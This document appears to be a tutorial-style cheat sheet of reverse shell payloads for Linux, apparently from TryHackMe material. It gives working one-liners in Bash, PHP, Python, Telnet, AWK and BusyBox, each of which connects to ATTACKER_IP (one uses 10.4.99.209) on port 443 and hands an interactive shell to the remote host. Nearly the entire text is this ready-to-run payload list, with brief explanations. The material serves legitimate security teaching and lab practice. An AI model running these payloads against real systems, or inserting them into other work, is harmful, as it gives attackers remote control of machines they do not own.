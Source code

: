 # Shell Payloads
A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

Let's explore some of these payloads that can be used in the Linux OS to expose the shell through the most popular reverse shell.

## Bash
**Normal Bash Reverse Shell**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```
This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (ATTACKER_IP) on port 443. The >& operator combines both standard output and standard error.


**Bash Read Line Reverse Shell**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```
This reverse shell creates a new file descriptor (5 in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.

**Bash With File Descriptor 196 Reverse Shell**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```
This reverse shell uses a file descriptor (196 in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.

**Bash With File Descriptor 5 Reverse Shell**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
Similar to the first example, this command opens a shell (bash -i), but it uses file descriptor 5 for input and output, enabling an interactive session over the TCP connection.


## PHP
**PHP Reverse Shell Using the exec Function**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```
This reverse shell creates a socket connection to the attacker's IP on port 443 and uses the exec function to execute a shell, redirecting standard input and output.

**PHP Reverse Shell Using the shell_exec Function**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
Similar to the previous command, but uses the shell_exec function.

**PHP Reverse Shell Using the system Function**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```
This reverse shell employs the system function, which executes the command and outputs the result to the browser.


**PHP Reverse Shell Using the passthru Function**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
The passthru function executes a command and sends raw output back to the browser. This is useful when working with binary data.


**PHP Reverse Shell Using the popen Function**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```
This reverse shell uses popen to open a process file pointer, allowing the shell to be executed.


## Python
**Python Reverse Shell by Exporting Environment Variables**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```
This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

**Python Reverse Shell Using the subprocess Module**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```
This reverse shell uses the subprocess module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

**Short Python Reverse Shell**
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
This reverse shell creates a socket (s), connects to the attacker, and redirects standard input, output, and error to the socket using os.dup2().

## Others

## Telnet
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```
This reverse shell creates a named pipe using mkfifo and connects to the attacker via Telnet on IP ATTACKER_IP and port 443. 

## AWK
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
This reverse shell uses AWK’s built-in TCP capabilities to connect to ATTACKER_IP:443. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

## BusyBox
```bash
🔴🟢🟡                        Terminal
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```
This BusyBox reverse shell uses Netcat (nc) to connect to the attacker at ATTACKER_IP:443. Once connected, it executes /bin/sh, exposing the command line to the attacker.
